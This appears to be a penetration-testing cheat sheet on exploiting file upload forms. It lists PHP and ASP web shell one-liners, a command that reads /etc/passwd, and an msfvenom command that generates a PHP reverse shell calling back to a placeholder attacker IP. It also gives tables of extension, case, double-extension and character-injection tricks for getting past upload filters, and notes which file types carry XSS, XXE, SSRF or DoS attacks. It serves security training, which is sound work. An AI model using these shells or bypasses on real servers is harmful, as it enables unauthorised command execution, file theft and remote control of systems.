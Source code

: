 
|**Web Shell**|**Description**|
|---|---|
|`<?php file_get_contents('/etc/passwd'); ?>`|Basic PHP File Read|
|`<?php system('hostname'); ?>`|Basic PHP Command Execution|
|`<?php system($_REQUEST['cmd']); ?>`|Basic PHP Web Shell|
|`<% eval request('cmd') %>`|Basic ASP Web Shell|
|`msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`|Generate PHP reverse shell|
|[PHP Web Shell](https://github.com/Arrexel/phpbash)|PHP Web Shell|
|[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)|PHP Reverse Shell|
|[Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)|List of Web Shells and Reverse Shells|

## Bypasses

|**Command**|**Description**|
|---|---|
|**Client-Side Bypass**||
|`[CTRL+SHIFT+C]`|Toggle Page Inspector|
|**Blacklist Bypass**||
|`shell.phtml`|Uncommon Extension|
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Whitelist Bypass**||
|`shell.jpg.php`|Double Extension|
|`shell.php.jpg`|Reverse Double Extension|
|`%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…`|Character Injection - Before/After Extension|
|**Content/Type Bypass**||
|[Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)|List of Web Content-Types|
|[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)|List of All Content-Types|
|[File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)|List of File Signatures/Magic Bytes|

## Limited Uploads

|**Potential Attack**|**File Types**|
|---|---|
|`XSS`|HTML, JS, SVG, GIF|
|`XXE`/`SSRF`|XML, SVG, PDF, PPT, DOC|
|`DoS`|ZIP, JPG, PNG|